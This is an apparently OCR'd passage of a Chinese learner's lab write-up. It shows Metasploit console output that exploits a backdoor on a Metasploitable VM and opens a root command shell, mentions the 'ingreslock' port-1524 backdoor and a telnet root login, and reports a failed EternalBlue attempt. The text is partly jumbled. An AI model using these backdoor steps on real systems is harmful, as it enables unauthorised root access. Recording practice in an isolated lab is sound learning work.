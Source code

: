 ```
[*] Sending backdoor command…

[*] Accepted the first client connection…

[*] Accepted the second client connection…

[*] Command: echo 8bMUYsfmGvOLHBxe;

[*] Writing to socket A

[*] Writing to socket B

[*] Reading from sockets…

[*] Reading from socket B

[*] B: "8bMUYsfmGvOLHBxe\r\n"

[*] Matching…

[*] A is input…

[*] Command shell session 1 opened (192.168.99.128:4444 -> 192.168.99.131:60257) at 2012-05-31 21:53:59 -0700

id

uid=0(root) gid=0(root)

在少数服务器上存在一个古老的令人惊讶的“ingreslock”后门，监听1524端口。在过去的十年里，它经常被用于入侵一个暴露的服务器。它的利用是如此简单
root@ubuntu:~

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &

root@metasploitable:/

uid=0(root) gid=0(root) groups=0(root)
```

然后就没了,永恒之蓝攻击server 2008 stdio…版本太老了…没成功
总之收货很大了，膜鸡哥，鸡哥强无敌